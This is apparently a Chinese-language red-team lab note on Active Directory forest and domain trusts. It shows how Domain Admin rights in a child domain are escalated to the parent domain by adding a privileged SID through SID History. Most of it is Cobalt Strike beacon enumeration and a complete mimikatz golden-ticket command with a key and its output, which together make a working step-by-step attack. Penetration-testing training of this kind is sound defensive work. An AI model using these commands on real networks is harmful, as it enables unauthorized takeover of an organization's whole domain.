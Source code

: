 # Forest & Domain Trusts

域信任：单向信任，双向信任。（或者出站信任，入站信任）

域信任传递链：A信任B，B信任C，那么A也信任C


# Parent/Child

如果在子域已经获取到了DA权限，可以利用SID History取得父域的DA权限。

> If we have Domain Admin privileges in the child, we can also gain Domain Admin privileges in the parent using a TGT with a special attribute called SID History. SID History was designed to support migration scenarios, where a user would be moved from one domain to another. To preserve access to resources in the "old" domain, the user's previous SID would be added to the SID History of their new account. So when creating such a ticket, the SID of a privileged group (EAs, DAs, etc) in the parent domain can be added that will grant access to all resources in the parent.

如何实现？

首先需要知道父域DA组的SID
```
beacon> powershell Get-DomainGroup -Identity "Domain Admins" -Domain cyberbotic.io -Properties ObjectSid

objectsid                                   
---------                                   
S-1-5-21-378720957-2217973887-3501892633-512

beacon> powershell Get-DomainController -Domain cyberbotic.io | select Name

Name              
----              
dc-1.cyberbotic.io
```

这里```S-1-5-21-378720957-2217973887-3501892633-512```就是我们下面操作需要的SID

1. 金票

制作金票，sids填入上面查询到的值
```
mimikatz # kerberos::golden /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-3263068140-2042698922-2891547269 /sids:S-1-5-21-378720957-2217973887-3501892633-512 /aes256:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /startoffset:-10 /endin:600 /renewmax:10080 /ticket:cyberbotic.kirbi
User      : Administrator
Domain    : dev.cyberbotic.io (DEV)
SID       : S-1-5-21-3263068140-2042698922-2891547269
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-378720957-2217973887-3501892633-512 ;
ServiceKey: 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa - aes256_hmac
Lifetime  : 3/11/2021 2:49:33 PM ; 3/12/2021 12:49:33 AM ; 3/18/2021 2:49:33 PM
-> Ticket : cyberbotic.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```
